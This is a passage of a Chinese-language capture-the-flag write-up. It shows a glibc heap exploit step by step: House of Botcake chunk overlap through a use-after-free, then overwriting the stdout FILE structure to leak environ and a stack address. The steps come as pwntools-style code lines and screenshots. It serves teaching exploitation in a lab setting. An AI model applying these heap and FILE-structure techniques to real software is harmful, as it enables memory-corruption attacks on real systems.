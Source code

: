 合并一下chunk  
合并前：  
[![](assets/1701612363-c80f6778b19ab228b0bde7d04f23428c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213029-c6db6ef4-19a5-1.png)  
合并后：  
[![](assets/1701612363-4126b48ab0ce161d67329a58727ab715.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213039-ccc26796-19a5-1.png)

```plain
add(0x80,'aaaa') #0
```

然后留出一个空位打 House of Botcake

[![](assets/1701612363-c42b8920fd7446ca07e32eae28cc148a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213054-d60ccf8a-19a5-1.png)

```plain
delete(8)
```

这时候两个堆块已经重叠了

[![](assets/1701612363-6ef3121d6a00835b1b41ea957dab6b31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213108-de764c00-19a5-1.png)

```plain
add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
```

然后修改UAF留下的指针

[![](assets/1701612363-ce0b576637f40fef0d986a11857c8e55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213121-e6096b78-19a5-1.png)

```plain
add(0x80,'aaaa') #3
add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)
```

申请一次，后再申请一次来修改 \_IO\_2\_1_stdout_ 的结构体，这里是伪造了一下 \_flags ，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base这三个指针为0 ，覆盖\_IO\_write\_base指针为 environ ，覆盖 \_IO\_write\_ptr 指针为 比environ大的数(environ+8)，这时候就会泄露出 \_IO\_write\_base指针与\_IO\_write\_ptr指针之间的所有数据 (也就是environ的地址)\[这里的知识点，我在 Io leak那篇文章中详细展开过\]，这里-0x128计算的是程序返回地址-0x8，-0x8是为了写 './flag\\x00\\x00'

```plain
delete(3)
delete(2)
```

然后把重叠的堆块再释放(本来是chunk1、2重叠，这个是伪造的2、3重叠)

[![](assets/1701612363-10ab7370198d34cdbd7109377c99ae56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213142-f295451a-19a5-1.png)

```plain
add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
```
